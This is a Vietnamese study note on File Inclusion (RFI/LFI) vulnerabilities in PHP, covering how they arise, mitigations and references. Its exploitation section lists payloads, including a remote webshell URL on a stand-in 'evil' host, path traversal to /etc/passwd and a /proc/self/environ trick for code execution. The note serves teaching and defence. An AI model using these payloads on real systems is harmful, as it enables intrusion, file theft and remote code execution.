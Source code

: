 # I. Khái niệm File Inclusion
* Là một kiểu tấn công thường gặp ở các web app trong quá trình thực thi code
* Lỗ hổng này xảy ra khi app có những đường dẫn tới code thực thi, mà các đường dẫn này lại thông qua người dùng, làm cho kẻ tấn công có thể "điều hướng" sang các files thực thi khác

### **Sự khác nhau giữa Path Traversal và File Inclusion:**
* Path Traversal: lỗ hổng cho phép truy cập vào những files mà người dùng vốn không có quyền truy cập vào
* File Inclusion: khai thác vào cách mà app thực thi code

## Phân loại:
### 1. Remote File Inclusion (RFI):
* Thường xảy ra khi mục tiêu down về và thực thi một file nào đó
* File này thường được tải thông qua tham số mà người dùng cung cấp tới app dưới dạng HTTP hoặc FTP URI

### 2. Local File Inclusion (LFI):
* Cũng giống RFI nhưng khác ở chỗ thay vì là file phải down về thì là những files đã có sẵn trong server 

<br><br>

# II. Cơ chế khai thác (xét với PHP)
* Thông thường các programmers non có khâu kiểm duyệt các input bởi người dùng cho các hàm gọi tới các files để thực thi còn chưa chặt chẽ
* Trong PHP có một cái directive (hiểu nôm na là "sự chỉ dẫn"), nếu được sử dụng, cho phép các hàm sử dụng URL để lấy data từ nơi khác
    * versions <= 4.3.4: *allow_url_fopen*
    * versión 5.2.0: *allow_url_include*
* Từ phiên bản 5.x trở đi, directive này mặc định thì bị vô hiệu hóa, còn các phiên bản về trước thì vẫn được bật
* Để khai thác lỗ hổng này, kẻ tấn công sẽ thay thế biến truyền vào các hàm này để làm nó include code bẩn ở nơi nào đó

VD: Xét đoạn PHP sau, trong đó có chứa request đến một file
<div style="display:flex; justify-content: center;">
    <img src="./src/example.png" style="width: 90%">
</div>
    
* Có thể đoán mục đích ban đầu là include các files như english.php hay french.php để hiển thị ngôn ngữ lên app
* Nhưng qua tham số *language*, ta có thể "tiêm" một số payloads có dạng như sau:
    * language=http://evil.example.com/webshell.txt?: truyền vào một file file code bẩn (RFI)
    * language=C:\\\ftp\\\upload\\\exploit: thực thi code ở file đã có sẵn trong server có tên exploit.php (LFI)
    * language=C:\\\notes.txt%00: thậm chí có thể dùng null byte để truy cập được nhiều files hơn là mỗi php (từ phiên bản 5.3 không được sử dụng nữa)
    * language=../../../../../etc/passwd%00: tận dụng path traversal để đọc file bất kỳ
    * language=../../../../../proc/self/environ%00: đọc nội dung của /proc/self/environ. Qua đó có thể điều chỉnh HTTP header (như User-Agent) để thực hiện RCE

<br><br>

# III. Cách phòng chống
* Cần có khâu kiểm duyệt user input chặt chẽ 
* Với các phiên bản PHP thấp, tắt allow_url_fopen và allow_url_include, hoặc cập nhật lên phiên bản PHP cao hiwn

<br><br>

# Một số tools khai thác:
* fimap

<br><br>

# Tài liệu tham khảo:
* https://en.wikipedia.org/wiki/File_inclusion_vulnerability
* https://viblo.asia/p/file-inclusion-vulnerability-exploit-4P856NMa5Y3
* https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion
